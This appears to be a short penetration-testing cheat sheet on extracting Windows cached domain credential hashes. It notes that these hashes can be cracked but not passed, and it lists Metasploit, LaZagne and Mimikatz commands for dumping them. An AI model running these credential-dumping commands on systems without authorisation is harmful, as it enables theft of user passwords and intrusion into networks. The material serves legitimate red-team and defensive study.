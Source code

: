 # Cached Credentials

## Note:

MS-Cache password hashes cannot be used in Pass-The-Hash (Pth) attacks. However, they can be cracked to reveal the clear-text password.

### 1) Metasploit

    use post/windows/gather/cachedump

### 2) LaZagne

    LaZagne.exe windows

### 3) Mimikatz

    Invoke-Mimikatz -Command '"lsadump::cache"'

